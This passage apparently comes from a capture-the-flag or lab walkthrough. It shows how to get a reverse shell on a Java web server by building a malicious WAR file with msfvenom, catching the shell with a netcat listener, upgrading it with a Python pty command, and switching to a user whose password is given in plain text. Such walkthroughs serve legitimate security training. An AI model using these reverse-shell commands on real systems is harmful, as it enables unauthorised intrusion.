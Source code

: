 Now we can use metasploit to obtain a reverse shell by uploading an evil WAR:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.11.128 LPORT=4444 -f war -o shell.war
```

Start a netcat listener on TCP 4444, click the `/shell` link and catch the reverse shell:

<figure><img src="../../.gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

And upgrade it to a pseudo-shell:

```
python -c 'import pty;pty.spawn("/bin/bash")';
```

### Change user to fluffy

The user fluffy is the only that seems to work with `su`:

username: `fluffy`&#x20;

password: `freakishfluffybunny`
